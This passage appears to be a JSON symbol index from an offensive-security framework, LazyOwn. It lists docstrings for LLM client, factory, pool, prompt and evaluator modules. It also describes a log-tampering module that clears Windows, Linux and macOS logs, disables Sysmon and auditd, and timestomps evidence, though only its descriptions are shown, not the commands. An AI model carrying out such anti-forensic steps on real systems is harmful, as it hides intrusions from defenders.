"kind": "module", "label": "llm_client.py", "language": "py", "sha256": "d2fba2067f290c96", "symbol_count": 12, "symbols": [{"doc": "Unified LLM client with automatic fallback.\n\nParameters\n----------\napi_key : str, optional\n    Groq API key. Falls back to GROQ_API_KEY env var.\ngroq_model : str, optional\n    Default Groq model name.\nollama_model : str, optional\n    Default Ollama model name.\ntimeout : int, optional\n    HTTP request timeout in seconds.\nmax_tokens : int, optional\n    Max tokens in response.", "kind": "class", "line": 45, "name": "LLMClient", "signature": "class LLMClient"}, {"doc": "Return (or create) the module-level singleton LLMClient.", "kind": "function", "line": 268, "name": "get_client", "signature": "def get_client(api_key)"}, {"doc": "Module-level convenience wrapper.", "kind": "function", "line": 276, "name": "ask", "signature": "def ask(prompt)"}, {"doc": "Module-level convenience wrapper.", "kind": "function", "line": 288, "name": "classify", "signature": "def classify(output)"}, {"doc": "Module-level convenience wrapper.", "kind": "function", "line": 293, "name": "summarize", "signature": "def summarize(text)"}, {"kind": "method", "line": 63, "name": "__init__", "signature": "def __init__(self, api_key, groq_model, ollama_model, timeout, max_tokens)"}, {"doc": "Send a prompt and return the text response.\n\nParameters\n----------\nprompt : str\n    The user prompt.\nprovider : str\n    One of: \"groq\", \"ollama\", \"llamacpp\", \"auto\".\n    \"auto\" tries groq first, then ollama, then llamacpp, then returns static msg.\nmodel : str, optional\n    Override the default model for the selected provider.\nsystem : str, optional\n    System prompt / persona.\ntemperature : float, optional\n    Sampling temperature (0.0–2.0).\n\nReturns\n-------\nstr\n    The model's response text, or an error message prefixed with \"[LLM error]\".", "kind": "method", "line": 79, "name": "ask", "signature": "def ask(self, prompt)"}, {"doc": "Short classification prompt. Returns a single word: success / failure / partial.\nUses the faster/cheaper model by default.", "kind": "method", "line": 130, "name": "classify", "signature": "def classify(self, output)"}, {"doc": "Summarize a block of text (e.g. nmap output, tool output).", "kind": "method", "line": 159, "name": "summarize", "signature": "def summarize(self, text)"}, {"kind": "method", "line": 179, "name": "_ask_groq", "signature": "def _ask_groq(self, prompt, model, system, temperature)"}, {"kind": "method", "line": 220, "name": "_ask_ollama", "signature": "def _ask_ollama(self, prompt, model)"}, {"doc": "Ask the local llama.cpp server (OpenAI-compatible, keyless).", "kind": "method", "line": 242, "name": "_ask_llamacpp", "signature": "def _ask_llamacpp(self, prompt, model, system)"}]}, {"doc": "llm_evaluator.py — Records LLM decisions and their outcomes, computes quality metrics, and exports fine-tuning datasets for the LazyOwn auto_loop.", "id": "modules/llm_evaluator.py", "kind": "module", "label": "llm_evaluator.py", "language": "py", "sha256": "6cf6f38b3bcf8066", "symbol_count": 28, "symbols": [{"kind": "class", "line": 21, "name": "DecisionRecord", "signature": "class DecisionRecord"}, {"kind": "function", "line": 35, "name": "_new_id", "signature": "def _new_id()"}, {"kind": "function", "line": 39, "name": "_record_from_dict", "signature": "def _record_from_dict(d)"}, {"kind": "class", "line": 55, "name": "OutcomeRecorder", "signature": "class OutcomeRecorder(ABC)"}, {"kind": "class", "line": 75, "name": "JSONLRecorder", "signature": "class JSONLRecorder(OutcomeRecorder)"}, {"kind": "class", "line": 140, "name": "QualityMetrics", "signature": "class QualityMetrics"}, {"kind": "function", "line": 150, "name": "_safe_mean", "signature": "def _safe_mean(values)"}, {"kind": "function", "line": 154, "name": "_tactic_success_rates", "signature": "def _tactic_success_rates(records)"}, {"kind": "class", "line": 161, "name": "LLMEvaluator", "signature": "class LLMEvaluator"}, {"kind": "function", "line": 293, "name": "get_evaluator", "signature": "def get_evaluator()"}, {"kind": "function", "line": 302, "name": "record_decision", "signature": "def record_decision(session_id, thought, action, mitre_tactic, expected_outcome, confidence)"}, {"kind": "function", "line": 313, "name": "record_outcome", "signature": "def record_outcome(decision_id, actual_outcome, findings_count, success)"}, {"kind": "function", "line": 322, "name": "_cli", "signature": "def _cli()"}, {"kind": "method", "line": 57, "name": "record", "signature": "def record(self, decision)"}, {"kind": "method", "line": 60, "name": "update_outcome", "signature": "def update_outcome(self, decision_id, actual, findings_count, success)"}, {"kind": "method", "line": 69, "name": "load_all", "signature": "def load_all(self)"}, {"kind": "method", "line": 72, "name": "load_by_session", "signature": "def load_by_session(self, session_id)"}, {"kind": "method", "line": 76, "name": "__init__", "signature": "def __init__(self, path)"}, {"kind": "method", "line": 81, "name": "record", "signature": "def record(self, decision)"}, {"kind": "method", "line": 86, "name": "update_outcome", "signature": "def update_outcome(self, decision_id, actual, findings_count, success)"}, {"kind": "method", "line": 120, "name": "load_all", "signature": "def load_all(self)"}, {"kind": "method", "line": 135, "name": "load_by_session", "signature": "def load_by_session(self, session_id)"}, {"kind": "method", "line": 162, "name": "__init__", "signature": "def __init__(self, recorder)"}, {"kind": "method", "line": 165, "name": "record_decision", "signature": "def record_decision(self, session_id, thought, action, mitre_tactic, expected_outcome, confidence)"}, {"kind": "method", "line": 191, "name": "record_outcome", "signature": "def record_outcome(self, decision_id, actual_outcome, findings_count, success)"}, {"kind": "method", "line": 200, "name": "compute_metrics", "signature": "def compute_metrics(self, session_id)"}, {"kind": "method", "line": 241, "name": "quality_report", "signature": "def quality_report(self, session_id)"}, {"kind": "method", "line": 256, "name": "export_finetuning_dataset", "signature": "def export_finetuning_dataset(self, path)"}]}, {"doc": "LLM backend factory and selection utilities.  This module centralizes language model instantiation so that every caller in the framework reads its provider, model name, host, and credentials from a single source: ``payload.json``. The factory removes hardcoded model strings duplicated across six callers and enforces the Dependency Inversion Principle by returning the abstract :class:`AIModel` type while keeping the concrete backend choice under operator control.  Adding a new backend means implementing :class:`AIModel` and registering its identifier in :data:`SUPPORTED_BACKENDS`. No other module needs to change.  The factory wraps every returned backend with the :class:`core.llm_budget.BudgetedBackend` proxy so the daily cost cap and the per call token cap are enforced at the single chokepoint the framework uses. Callers that want the raw backend for testing can call :func:`get_llm_backend_raw` instead.", "id": "modules/llm_factory.py", "kind": "module", "label": "llm_factory.py", "language": "py", "sha256": "cca975a2d3e2c529", "symbol_count": 26, "symbols": [{"doc": "Return True when an error text means the model id is unavailable.\n\nArgs:\n    message: Exception instance, error string, or API payload text.\n\nReturns:\n    ``True`` for 404/model_not_found style replies from OpenAI-compatible\n    APIs, so callers can fail over to another model id.", "kind": "function", "line": 119, "name": "is_model_missing_error", "signature": "def is_model_missing_error(message)"}, {"doc": "Return the ordered Groq model ids to try, configured model first.\n\nResolution order per slot: ``LAZYOWN_GROQ_MODEL`` env var, the provided\nconfig mapping, ``payload.json`` key ``llm_model_groq``, then the default.\nKnown-good fallbacks follow so an account without access to the default\nmodel still gets a working backend.\n\nArgs:\n    config: Optional pre-loaded payload mapping.\n\nReturns:\n    Tuple of unique, non-empty model ids in try order.", "kind": "function", "line": 139, "name": "groq_model_chain", "signature": "def groq_model_chain(config)"}, {"doc": "Raised when no LLM backend can be instantiated from the current config.", "kind": "class", "line": 184, "name": "LLMBackendUnavailableError", "signature": "class LLMBackendUnavailableError(RuntimeError)"}, {"doc": "Raised when the requested backend identifier is unknown.", "kind": "class", "line": 188, "name": "LLMBackendNotSupportedError", "signature": "class LLMBackendNotSupportedError(ValueError)"}, {"doc": "Return the default model identifier for a backend.\n\n``\"auto\"`` resolves to the Groq default because the auto chain tries\nthe Groq cloud leg first.\n\nArgs:\n    backend: Backend identifier or None (treated as ``\"auto\"``).\n\nReturns:\n    Default model identifier.\n\nRaises:\n    LLMBackendNotSupportedError: When the identifier is not supported.", "kind": "function", "line": 218, "name": "default_model_for", "signature": "def default_model_for(backend)"}, {"doc": "Return the ``payload.json`` key holding a backend's model override.\n\n``\"auto\"`` maps to the Groq model slot because the auto chain tries\nthe Groq cloud leg first.\n\nArgs:\n    backend: Backend identifier or None (treated as ``\"auto\"``).\n\nReturns:\n    Config key for the model override.\n\nRaises:\n    LLMBackendNotSupportedError: When the identifier is not supported.", "kind": "function", "line": 239, "name": "model_config_key", "signature": "def model_config_key(backend)"}, {"doc": "Return the ``payload.json`` key holding a backend's API key slot.\n\nReturns ``None`` for Ollama (keyless local daemon). ``\"auto\"`` maps\nto the Groq key slot because the auto chain tries Groq first.\n\nArgs:\n    backend: Backend identifier or None (treated as ``\"auto\"``).\n\nReturns:\n    Config key for the API key, or None when no key is needed.\n\nRaises:\n    LLMBackendNotSupportedError: When the identifier is not supported.", "kind": "function", "line": 260, "name": "api_key_config_key", "signature": "def api_key_config_key(backend)"}, {"doc": "Report whether a backend needs an API key to operate.\n\nOnly Ollama runs keyless. ``\"auto\"`` reports True because its cloud\nleg needs a key (it still degrades to keyless Ollama without one).\n\nArgs:\n    backend: Backend identifier or None (treated as ``\"auto\"``).\n\nReturns:\n    True when an API key is required, False for Ollama.\n\nRaises:\n    LLMBackendNotSupportedError: When the identifier is not supported.", "kind": "function", "line": 285, "name": "backend_requires_api_key", "signature": "def backend_requires_api_key(backend)"}, {"doc": "Read ``payload.json`` from disk and return it as a dictionary.\n\nArgs:\n    payload_path: Optional explicit path. Defaults to the repository's\n        ``payload.json`` resolved relative to this module's parent.\n\nReturns:\n    The parsed payload mapping, or an empty dictionary if the file\n    is missing or unreadable. Errors are swallowed so the factory\n    can fall back to environment variables and defaults.", "kind": "function", "line": 303, "name": "load_payload", "signature": "def load_payload(payload_path)"}, {"doc": "Return a usable Groq API key or ``None`` when no real key is set.\n\nThe placeholder string in ``payload.json`` (\"api_key\") is treated as\n\"unset\" so the factory falls through to the next backend instead of\nsending a doomed request.\n\nArgs:\n    config: A mapping derived from ``payload.json``.\n\nReturns:\n    The first non-placeholder API key found in the configuration or\n    the ``GROQ_API_KEY`` environment variable, or ``None``.", "kind": "function", "line": 327, "name": "_resolve_api_key", "signature": "def _resolve_api_key(config)"}, {"doc": "Return a usable API key for a specific backend or ``None``.\n\nArgs:\n    backend: Normalized backend identifier (groq, openai, anthropic, deepseek).\n    config: A mapping derived from ``payload.json``.\n\nReturns:\n    API key string or ``None`` when no valid key is configured.", "kind": "function", "line": 350, "name": "_resolve_api_key_for_backend", "signature": "def _resolve_api_key_for_backend(backend, config)"}, {"doc": "Validate and normalize a backend identifier.\n\nArgs:\n    backend: Raw backend string read from config or call site.\n\nReturns:\n    A lowercase identifier guaranteed to be in :data:`SUPPORTED_BACKENDS`.\n\nRaises:\n    LLMBackendNotSupportedError: When ``backend`` is non-empty but\n        not a recognized identifier.", "kind": "function", "line": 381, "name": "_normalize_backend", "signature": "def _normalize_backend(backend)"}, {"doc": "Instantiate a Groq backend or raise when no API key is available.\n\nArgs:\n    config: A mapping derived from ``payload.json``.\n\nReturns:\n    A configured :class:`GroqModel` instance.\n\nRaises:\n    LLMBackendUnavailableError: When no valid Groq API key is found.", "kind": "function", "line": 404, "name": "_build_groq", "signature": "def _build_groq(config)"}, {"doc": "Instantiate an Ollama backend using configured model and host.\n\nArgs:\n    config: A mapping derived from ``payload.json``.\n\nReturns:\n    A configured :class:`OllamaModel` instance.", "kind": "function", "line": 426, "name": "_build_ollama", "signature": "def _build_ollama(config)"}, {"doc": "Instantiate a llama.cpp server backend (keyless, local).\n\nArgs:\n    config: A mapping derived from ``payload.json``.\n\nReturns:\n    A configured :class:`LlamaCppModel` instance.", "kind": "function", "line": 440, "name": "_build_llamacpp", "signature": "def _build_llamacpp(config)"}, {"doc": "Instantiate an OpenAI backend or raise when no API key is available.\n\nArgs:\n    config: A mapping derived from ``payload.json``.\n\nReturns:\n    A configured :class:`OpenAIModel` instance.\n\nRaises:\n    LLMBackendUnavailableError: When no valid OpenAI API key is found.", "kind": "function", "line": 454, "name": "_build_openai", "signature": "def _build_openai(config)"}, {"doc": "Instantiate an Anthropic backend or raise when no API key is available.\n\nArgs:\n    config: A mapping derived from ``payload.json``.\n\nReturns:\n    A configured :class:`AnthropicModel` instance.\n\nRaises:\n    LLMBackendUnavailableError: When no valid Anthropic API key is found.", "kind": "function", "line": 476, "name": "_build_anthropic", "signature": "def _build_anthropic(config)"}, {"doc": "Instantiate a DeepSeek backend or raise when no API key is available.\n\nArgs:\n    config: A mapping derived from ``payload.json``.\n\nReturns:\n    A configured :class:`DeepSeekModel` instance.\n\nRaises:\n    LLMBackendUnavailableError: When no valid DeepSeek API key is found.", "kind": "function", "line": 498, "name": "_build_deepseek", "signature": "def _build_deepseek(config)"}, {"doc": "Return the model identifier the factory would use for a backend.\n\nArgs:\n    backend_identifier: Normalized backend identifier.\n    config: Mapping derived from ``payload.json``.\nReturns:\n    The model identifier the budget proxy records on every call.", "kind": "function", "line": 520, "name": "_resolve_model_identifier", "signature": "def _resolve_model_identifier(backend_identifier, config)"}, {"doc": "Wrap a concrete backend with the budget proxy.\n\nThe wrapper is import tolerant. When the budget module is missing\nthe factory returns the raw backend so a missing dependency never\nblocks the operator. When the budget module is present the\nfactory wraps the backend transparently.\n\nArgs:\n    backend: Concrete backend the factory built.\n    config: Mapping derived from ``payload.json``.\n    backend_identifier: Normalized backend identifier.\nReturns:\n    Either the wrapped proxy or the raw backend when the budget\n    module is not importable.", "kind": "function", "line": 547, "name": "_wrap_with_budget", "signature": "def _wrap_with_budget(backend, config, backend_identifier)"}, {"doc": "Return a concrete :class:`AIModel` selected by configuration.\n\nThe selection order is:\n\n1. Explicit ``backend`` argument when provided.\n2. ``llm_backend`` key from ``config`` (or loaded ``payload.json``).\n3. :data:`DEFAULT_BACKEND` (``\"auto\"``).\n\nWhen the resolved backend is ``\"auto\"`` the factory tries Groq first\n(if an API key is available) and falls back to Ollama. Any other\nexplicit selection is honoured strictly: callers receive\n:class:`LLMBackendUnavailableError` rather than a silent fallback so\nthey can decide whether to degrade or raise.\n\nThe returned backend is wrapped with the budget proxy so the daily\ncost cap and the per call token cap are enforced at the single\nchokepoint the framework uses. Use :func:`get_llm_backend_raw` to\nbypass the wrapper for tests that need a raw backend.\n\nArgs:\n    config: Optional pre-loaded payload mapping. When ``None`` the\n        payload is read from disk.\n    backend: Optional override for the backend identifier. Takes\n        precedence over the configuration value.\n\nReturns:\n    A configured :class:`AIModel` instance that also structurally\n    satisfies :class:`core.protocols.LLMBackend`, ready for either\n    ``generate`` or ``complete`` calls.\n\nRaises:\n    LLMBackendNotSupportedError: When an unsupported identifier is\n        requested.\n    LLMBackendUnavailableError: When the requested backend cannot\n        be constructed from the current environment (for example,\n        Groq selected with no API key).", "kind": "function", "line": 585, "name": "get_llm_backend", "signature": "def get_llm_backend(config, backend)"}, {"doc": "Build the raw backend for a normalized identifier.\n\nArgs:\n    normalized: Normalized backend identifier.\n    resolved_config: Mapping derived from ``payload.json``.\nReturns:\n    The raw concrete backend the factory would return without\n    the budget wrapper.\nRaises:\n    LLMBackendUnavailableError: When the requested backend cannot\n        be constructed from the current environment.", "kind": "function", "line": 637, "name": "_build_backend", "signature": "def _build_backend(normalized, resolved_config)"}, {"doc": "Return a raw :class:`AIModel` without the budget wrapper.\n\nTests and the CLI command ``llm_budget`` itself use this entry\npoint so the budget proxy never recurses into itself. Production\ncallers should keep using :func:`get_llm_backend`.\n\nArgs:\n    config: Optional pre-loaded payload mapping.\n    backend: Optional explicit backend identifier.\nReturns:\n    The raw concrete backend.", "kind": "function", "line": 673, "name": "get_llm_backend_raw", "signature": "def get_llm_backend_raw(config, backend)"}, {"doc": "Return a backend or ``None`` if construction fails for any reason.\n\nWraps :func:`get_llm_backend` so call sites that prefer to degrade\ngracefully (CLI assistants, opportunistic enrichers) can keep\nworking when no LLM is reachable.\n\nArgs:\n    config: Optional pre-loaded payload mapping.\n    backend: Optional explicit backend identifier.\n\nReturns:\n    A configured :class:`AIModel`, or ``None`` when no backend is\n    available.", "kind": "function", "line": 695, "name": "try_get_llm_backend", "signature": "def try_get_llm_backend(config, backend)"}, {"doc": "Completion that reports incremental deltas while it arrives.\n\nStreams through the configured backend's ``stream_generate`` when the\nprovider supports it and silently falls back to :func:`complete` on\nany error, so a backend without streaming never breaks a caller.\n\nArgs:\n    model: Model spec, same syntax as :func:`complete`.\n    prompt: Prompt text (truncated to 6000 chars like the pool path).\n    max_tokens: Upper bound hint for the provider.\n    on_delta: Optional callback invoked with each text fragment.\n\nReturns:\n    The complete reply text.", "kind": "function", "line": 719, "name": "stream_complete", "signature": "def stream_complete(model, prompt, max_tokens, on_delta)"}, {"doc": "Complete a prompt through one model spec; raise when unanswered.\n\nThe ``model`` spec accepts an optional ``backend:`` prefix selecting\nthe leg: ``groq:``, ``ollama:``, ``llamacpp:``, ``auto:`` (groq first, then ollama)\nor ``toposwarm:`` (local agentic router, keyless). A bare model name\nresolves through the ``auto`` chain. Empty prompt returns empty\nstring; any backend outage raises so pool callers can fail over to\nthe next leg and finally to the heuristic path.\n\nArgs:\n    model: Model spec, optionally prefixed with backend.\n    prompt: User prompt text.\n    max_tokens: Response token cap.\n\nReturns:\n    Response text, never empty on success.\n\nRaises:\n    RuntimeError: When no leg answers.", "kind": "function", "line": 788, "name": "complete", "signature": "def complete(model, prompt, max_tokens)"}]}, {"doc": "Ordered LLM failover pool with health-aware skipping.  Ports the LAZY llmpool contract. Members form a priority chain with the active profile heading. Failover happens only before the first token. Mid-stream failures surface unchanged for harness resume.", "id": "modules/llm_pool.py", "kind": "module", "label": "llm_pool.py", "language": "py", "sha256": "9619916a55219229", "symbol_count": 20, "symbols": [{"doc": "Resolve the persisted breaker path (env override wins).", "kind": "function", "line": 20, "name": "_health_path", "signature": "def _health_path()"}, {"doc": "Centralized constants for pool behavior (LAZY llmpool parity).", "kind": "class", "line": 29, "name": "PoolConfig", "signature": "class PoolConfig"}, {"doc": "Raised when every pool member fails a request.", "kind": "class", "line": 42, "name": "PoolExhausted", "signature": "class PoolExhausted(RuntimeError)"}, {"doc": "Return the process-wide health registry (LAZY Registry parity).\n\nBreaker state survives pool rebuilds so repeated failures across\nsuggestions trip the breaker instead of resetting each call.", "kind": "function", "line": 50, "name": "shared_registry", "signature": "def shared_registry(config)"}, {"doc": "Single provider in the failover chain.", "kind": "class", "line": 64, "name": "PoolMember", "signature": "class PoolMember"}, {"doc": "Failure counting registry with tiered backoff (LAZY parity).\n\nSoft trips after max_failures transient errors; auth errors\n(401/402/quota) trip immediately. Backoff tiers are 1m/5m/30m.\nState persists to disk so the breaker survives process restarts.", "kind": "class", "line": 75, "name": "HealthRegistry", "signature": "class HealthRegistry"}, {"doc": "Failover chain over ordered pool members with RR intra-rank.", "kind": "class", "line": 176, "name": "LLMPool", "signature": "class LLMPool"}, {"doc": "Initialize counters from the persisted breaker state.", "kind": "method", "line": 83, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Load persisted counters, ignoring corrupt or missing state.", "kind": "method", "line": 92, "name": "_load", "signature": "def _load(self)"}, {"doc": "Write the breaker state; called with the lock held.", "kind": "method", "line": 116, "name": "_persist_locked", "signature": "def _persist_locked(self)"}, {"doc": "Clear failure state for a member.", "kind": "method", "line": 135, "name": "report_success", "signature": "def report_success(self, member_id)"}, {"doc": "Record a failure; auth/quota errors trip immediately.", "kind": "method", "line": 143, "name": "report_failure", "signature": "def report_failure(self, member_id, error)"}, {"doc": "Return the backoff tier for a failure count.", "kind": "method", "line": 155, "name": "_backoff_for", "signature": "def _backoff_for(self, failures)"}, {"doc": "Return True when a member may serve traffic.", "kind": "method", "line": 163, "name": "healthy", "signature": "def healthy(self, member_id)"}, {"doc": "Order members by descending rank (RR within equal rank).", "kind": "method", "line": 179, "name": "__init__", "signature": "def __init__(self, members, health, config)"}, {"doc": "Return chain members in order.", "kind": "method", "line": 192, "name": "members", "signature": "def members(self)"}, {"doc": "Build a sticky session header (LAZY session_header parity).", "kind": "method", "line": 196, "name": "session_key", "signature": "def session_key(self, conversation_id, role, index)"}, {"doc": "Active-first, rank DESC, round-robin within equal rank.", "kind": "method", "line": 201, "name": "_ordered", "signature": "def _ordered(self)"}, {"doc": "Cap output at max_output_chars, spilling to a file when set.", "kind": "method", "line": 217, "name": "_truncate", "signature": "def _truncate(self, text, overflow_dir)"}, {"doc": "Complete a prompt with pre-token failover across members.", "kind": "method", "line": 237, "name": "complete", "signature": "def complete(self, prompt, max_tokens, session_key, overflow_dir)"}]}, {"doc": "Canonical prompt-template and knowledge-base contract for LLM consumers.  Owns every task-domain prompt template used by the Groq chat family and the structured helpers (truncation, knowledge-base CRUD, relevance filtering, payload/event context loading) that were previously duplicated across the retired ``modules.legacy.lazygptcli*`` scripts.  This module is pure: it never imports a vendor SDK, never performs network calls, and never reads process environment directly. All filesystem locations and tunables are resolved through :class:`LlmPromptConfig` so tests can point every read/write at temporary fixtures.  Usage::  from modules.llm_prompts import LlmPromptConfig, KnowledgeStore  config = LlmPromptConfig(project_root=\"/tmp/x\") store = config.knowledge_store(\"vuln\") kb = store.relevant(\"nmap output\", limit=5) prompt = config.render(\"vuln\", \"raw nmpa output\", context=ctx)", "id": "modules/llm_prompts.py", "kind": "module", "label": "llm_prompts.py", "language": "py", "sha256": "b22ac78b42adc6b1", "symbol_count": 28, "symbols": [{"doc": "Return the repository root that owns the LLM prompt configuration.\n\nReturns:\n    Absolute path to the LazyOwn repository root.", "kind": "function", "line": 67, "name": "default_project_root", "signature": "def default_project_root()"}, {"doc": "Resolve an explicit model or fall back to the randomized Groq model.\n\nArgs:\n    model: Explicit Groq model identifier or None.\n\nReturns:\n    The model to send to the chat completion endpoint.", "kind": "function", "line": 76, "name": "resolve_model", "signature": "def resolve_model(model)"}, {"doc": "Truncate a message with an ellipsis marker when it exceeds the limit.\n\nArgs:\n    message: Source text.\n    max_chars: Maximum allowed character length.\n\nReturns:\n    Truncated text, or the original when it fits within ``max_chars``.", "kind": "function", "line": 95, "name": "truncate_message", "signature": "def truncate_message(message, max_chars)"}, {"doc": "Resolved filesystem and behavioural configuration for prompt rendering.\n\nAttributes:\n    project_root: Repository root used to locate payload, event and session\n        artefacts.\n    kb_dir: Directory that stores the knowledge-base JSON files.\n    payload_path: Absolute path to payload.json.\n    event_config_path: Absolute path to event_config.json or None.\n    sessions_dir: Directory that stores per-session plan history.", "kind": "class", "line": 111, "name": "LlmPromptConfig", "signature": "class LlmPromptConfig"}, {"doc": "Join the most recent knowledge lines for embedding into a prompt.\n\nArgs:\n    lines: Candidate knowledge strings.\n\nReturns:\n    Newline-joined tail of the input limited by\n    :data:`KNOWLEDGE_TAIL_LIMIT`.", "kind": "function", "line": 271, "name": "render_kb_tail", "signature": "def render_kb_tail(lines)"}, {"doc": "List-of-dict knowledge base persisted as JSON on disk.", "kind": "class", "line": 286, "name": "KnowledgeStore", "signature": "class KnowledgeStore"}, {"kind": "function", "line": 354, "name": "_payload_block", "signature": "def _payload_block(config)"}, {"kind": "function", "line": 362, "name": "_prompt_oneliner", "signature": "def _prompt_oneliner(base_prompt, kb_text, config)"}, {"kind": "function", "line": 378, "name": "_prompt_script", "signature": "def _prompt_script(base_prompt, kb_text, config)"}, {"kind": "function", "line": 393, "name": "_prompt_adversary", "signature": "def _prompt_adversary(base_prompt, kb_text, config)"}, {"kind": "function", "line": 409, "name": "_prompt_general", "signature": "def _prompt_general(base_prompt, kb_text, config)"}, {"kind": "function", "line": 422, "name": "_prompt_search", "signature": "def _prompt_search(base_prompt, kb_text, config)"}, {"kind": "function", "line": 436, "name": "_prompt_vuln", "signature": "def _prompt_vuln(base_prompt, kb_text, config)"}, {"kind": "function", "line": 450, "name": "_prompt_task", "signature": "def _prompt_task(base_prompt, kb_text, config)"}, {"kind": "function", "line": 462, "name": "_prompt_redop", "signature": "def _prompt_redop(base_prompt, kb_text, config)"}, {"doc": "Build a config rooted at the given project root.\n\nArgs:\n    project_root: Repository root override; defaults to the detected\n        repository root.\n\nReturns:\n    A fully-resolved :class:`LlmPromptConfig`.", "kind": "method", "line": 130, "name": "from_defaults", "signature": "def from_defaults(cls, project_root)"}, {"doc": "Return the absolute path for a knowledge-base domain file.\n\nArgs:\n    domain: One of the keys in :data:`KB_FILE_NAMES`.\n\nReturns:\n    Absolute path to the knowledge-base JSON file.", "kind": "method", "line": 150, "name": "knowledge_base_path", "signature": "def knowledge_base_path(self, domain)"}, {"doc": "Load the operator context keyed by :data:`PAYLOAD_KEY_ORDER`.\n\nReturns:\n    Mapping of every payload key to its value or an empty string.", "kind": "method", "line": 161, "name": "load_payload_context", "signature": "def load_payload_context(self)"}, {"doc": "Load tool output attached to a named event in event_config.json.\n\nArgs:\n    event_name: Event whose ``tool_output`` path should be read.\n\nReturns:\n    File content, or an empty string when no event or file matches.", "kind": "method", "line": 176, "name": "load_event_tool_output", "signature": "def load_event_tool_output(self, event_name)"}, {"doc": "Load the session plan history text if present.\n\nReturns:\n    Plan file content, or an empty string when unavailable.", "kind": "method", "line": 203, "name": "load_plan_history", "signature": "def load_plan_history(self)"}, {"doc": "Load the JSON artefacts consumed by the report template.\n\nReturns:\n    Mapping of basename to its parsed JSON content.", "kind": "method", "line": 218, "name": "load_report_context", "signature": "def load_report_context(self)"}, {"doc": "Build a knowledge store bound to a domain file.\n\nArgs:\n    domain: Knowledge-base domain key.\n\nReturns:\n    A :class:`KnowledgeStore` reading and writing the domain file.", "kind": "method", "line": 238, "name": "knowledge_store", "signature": "def knowledge_store(self, domain)"}, {"doc": "Render a named template with shared knowledge and context.\n\nArgs:\n    template: Template key in :data:`TEMPLATES`.\n    base_prompt: Operator prompt substituted into the template.\n    kb_lines: Relevant knowledge lines; latest ones are embedded.\n\nReturns:\n    Fully rendered system prompt string.", "kind": "method", "line": 249, "name": "render", "signature": "def render(self, template, base_prompt)"}, {"doc": "Initialize a store bound to a single JSON file.\n\nArgs:\n    path: Absolute path of the knowledge-base file.", "kind": "method", "line": 289, "name": "__init__", "signature": "def __init__(self, path)"}, {"doc": "Load the knowledge-base records from disk.\n\nReturns:\n    List of ``{\"prompt\", \"response\"}`` records; empty on any read error.", "kind": "method", "line": 297, "name": "load", "signature": "def load(self)"}, {"doc": "Persist a full record list to disk, creating parent directories.\n\nArgs:\n    records: List of knowledge-base records to write.", "kind": "method", "line": 312, "name": "save", "signature": "def save(self, records)"}, {"doc": "Append a prompt/response record to the knowledge base.\n\nArgs:\n    prompt: Operator prompt that produced the response.\n    response: Model response to remember.", "kind": "method", "line": 324, "name": "add", "signature": "def add(self, prompt, response)"}, {"doc": "Return knowledge responses whose text shares keywords with the prompt.\n\nArgs:\n    prompt: Query used to select relevant records.\n    limit: Maximum number of responses to return.\n\nReturns:\n    List of matching knowledge responses.", "kind": "method", "line": 335, "name": "relevant", "signature": "def relevant(self, prompt, limit)"}]}, {"doc": "Log tampering — Windows Event Log, Linux journald/auditd, macOS unified log.  Provides cross-platform log management for operational security: clearing Windows Event Logs (Security, System, Application), suspending the EventLog service, Linux journalctl vacuum and wtmp/btmp wiping, auditd rule removal, and macOS unified log stream filtering.  All operations produce detailed post-tamper verification reports for the operator to confirm log cleanup success.", "id": "modules/log_tamper.py", "kind": "module", "label": "log_tamper.py", "language": "py", "sha256": "1720b357a0930e6e", "symbol_count": 9, "symbols": [{"doc": "Configuration for log tampering operations.\n\nAttributes:\n    target_platform: windows, linux, or macos.\n    event_logs: List of Windows event log names to clear.\n    log_paths: List of Linux/macOS log file paths.\n    suspend_windows_eventlog: Suspend the EventLog service before clearing.\n    clear_shell_history: Clear bash/zsh/fish history files.\n    restore_eventlog_service: Restart EventLog after tampering.\n    verification: Perform post-tamper verification checks.\n    timestomp_tamper_evidence: Modify file timestamps of tampered logs.", "kind": "class", "line": 71, "name": "LogTamperConfig", "signature": "class LogTamperConfig"}, {"doc": "Cross-platform log tampering with verification.\n\nGenerates platform-specific commands for clearing, suspending,\nand verifying log tampering on Windows, Linux, and macOS.\n\nAttributes:\n    config: LogTamperConfig for target platform and operations.", "kind": "class", "line": 95, "name": "LogTamper", "signature": "class LogTamper"}, {"kind": "method", "line": 105, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Generate Windows Event Log clearing commands.\n\nIncludes EventLog service suspension, individual log clearing,\nPowerShell operational logs, Sysmon, and Defender logs.\n\nReturns:\n    Dict with powershell commands, batch commands, and verification.", "kind": "method", "line": 108, "name": "windows_clear_commands", "signature": "def windows_clear_commands(self)"}, {"doc": "Generate Linux log clearing commands.\n\nCovers systemd journal, auth logs, shell history, wtmp/btmp,\nand optional auditd rule removal.\n\nReturns:\n    Dict with bash commands, verification steps, and risk notes.", "kind": "method", "line": 176, "name": "linux_clear_commands", "signature": "def linux_clear_commands(self)"}, {"doc": "Generate macOS log clearing commands.\n\nCovers unified log, system log, TCC database reset, and\nshell history.\n\nReturns:\n    Dict with zsh commands, verification, and TCC notes.", "kind": "method", "line": 243, "name": "macos_clear_commands", "signature": "def macos_clear_commands(self)"}, {"doc": "Generate log tampering commands for all platforms.\n\nReturns:\n    Dict with per-platform command lists and verification.", "kind": "method", "line": 295, "name": "generate_all", "signature": "def generate_all(self)"}, {"doc": "Commands to temporarily disable or reconfigure auditd on Linux.\n\nauditd is the Linux Audit Framework — critical for forensic\nanalysis. Disabling or reconfiguring it significantly reduces\nforensic evidence of attacker activity.\n\nReturns:\n    Dict with auditd manipulation commands.", "kind": "method", "line": 307, "name": "auditd_disable_commands", "signature": "def auditd_disable_commands(self)"}, {"doc": "Commands to disable or degrade Sysmon on Windows.\n\nSysmon (System Monitor) provides detailed process creation,\nnetwork connection, and file creation logging. Disabling it\nsignificantly reduces EDR telemetry.\n\nReturns:\n    Dict with Sysmon manipulation commands.", "kind": "method", "line": 341, "name": "sysmon_disable_commands", "signature": "def sysmon_disable_commands(self)"}]}, {"doc": "Centralized logging configuration for the LazyOwn framework.  Provides a single point of logging configuration to replace the 61+ scattered `logging.basicConfig()` calls across the codebase.  Usage: from modules.logging_config import configure, get_logger  configure(level=logging.INFO, log_dir=\"sessions/logs\", console=True, file=True) logger = get_logger(__name__) logger.info(\"Framework started\")", "id": "modules/logging_config.py", "kind": "module", "label": "logging_config.py", "language": "py", "sha256": "e85b6901b52be195", "symbol_count": 21, 